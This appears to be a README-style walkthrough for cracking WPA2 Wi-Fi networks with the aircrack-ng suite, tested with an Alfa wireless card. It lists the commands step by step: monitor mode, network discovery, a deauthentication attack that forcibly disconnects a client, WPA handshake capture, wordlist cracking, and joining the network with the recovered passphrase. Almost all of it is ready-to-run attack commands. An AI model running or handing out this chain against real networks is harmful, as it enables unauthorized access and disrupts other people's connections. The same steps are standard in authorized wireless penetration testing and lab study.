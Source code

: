 tested with Alfa AWUS036ACH

#### Drivers installation

```
apt install realtek-rtl88xxau-dkms
```

#### Hacking process
1. Place wireless card into monitor mode
2. Discover information about network (Channel & BSSID)
3. Select network and capture data
4. Perform deauth attack
5. Capture WPA handshake
6. Attempt to crack the handshake

#### Exploit walkthrough

Monitor mode
```
airmon-ng	
airmon-ng check
airmon-ng check kill
airmon-ng start wlan1
iw dev wlan1 info
```

Discover informations
```
airodump-ng wlan1(mon)
#BSSID is the mac address
#PWR is the distance from the device (less the number is more we are close)
#CH is the channel
#ENC is the type (here WPA2)
#ESSID is the name od the SSID, if its hidden only the length is available
```

Select network and capture data
```
airodump-ng wlan1(mon) -c 12 --bssid <BSSID> --essid <SSID> -w capture
# -c for channel
# --bssid target router
# -w filename capture
```

After that we will see the device attached to the network.
Then to capture the handshake we can wait or to speed this process we have to kick the user connected from the network.

Perform deauth attack
```
# Open a new tab
aireplay-ng -0 1 -a <BSSID> -c <client_mac_address> wlan1(mon)
# -0 means deauth and 1 = run one time 
```

Capture WPA handshake

The deauth process start, the WPA handshake should pop up in the other tab. Look at the capture.cap.

Attempt to crack the handshake
```
aircrack-ng -w <wordlist.txt> -b <BSSID> capture.cap
aircrack-ng -w /usr/share/john/password.lst -e <ESSID> -b <BSSID> wpa.cap
```

#### Connect to the network

```
airmon-ng check kill
wpa_passphrase <SSID> > ssid.conf
wpa_supplicant -i wlan0 -c ssid.conf -B # -B for background
dhclient wlan0
```